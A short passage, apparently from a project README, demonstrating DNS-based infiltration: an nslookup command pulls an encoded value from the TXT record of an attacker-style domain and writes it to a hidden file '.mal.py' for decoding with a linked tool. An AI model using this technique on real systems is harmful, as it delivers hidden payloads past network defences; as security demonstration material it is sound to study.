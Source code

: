 ![img](assets/infil.png)

You can see my TXT Record below.

![img](assets/1-166187110298823.png)

Files used for this demo

1. `nslookup`

This will first look up the TXT record for rt1.badbaddoma.in, then get the value within the quotes, and finally it will save the value into a file named '.mal.py'.

```shell
nslookup -type=txt rt1.badbaddoma.in | grep Za | cut -d \" -f2 > .mal.py
```

2. packetSimple.py ( https://github.com/kleosdc/dns-exfil-infil )

When the code asks you for a 'Filename' enter the filename '.mal.py'. This is the file that we saved the encoded value in.
